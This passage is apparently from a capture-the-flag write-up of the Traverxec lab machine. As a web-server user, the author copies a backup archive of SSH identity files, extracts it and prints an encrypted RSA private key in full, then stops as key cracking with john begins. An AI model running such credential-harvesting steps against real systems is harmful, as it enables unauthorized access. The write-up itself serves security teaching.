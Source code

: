 Using a bit of intuition, I tried to `cd /home/david/public_www` and succeeded, even though `cd /home/david/ && ls` failed.

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Looks interesting. Let's extract this to `/tmp`.

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ cd /tmp
www-data@traverxec:/tmp$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz .
www-data@traverxec:/tmp$ mkdir data
www-data@traverxec:/tmp$ tar xzvf backup-ssh-identity-files.tgz -C /tmp/data
www-data@traverxec:/tmp$ cd data/home/david/.ssh/
www-data@traverxec:/tmp/data/home/david/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
www-data@traverxec:/tmp/data/home/david/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

Time to break out `john` to crack this encrypted RSA key. Save this key to a file and run `john` like this:

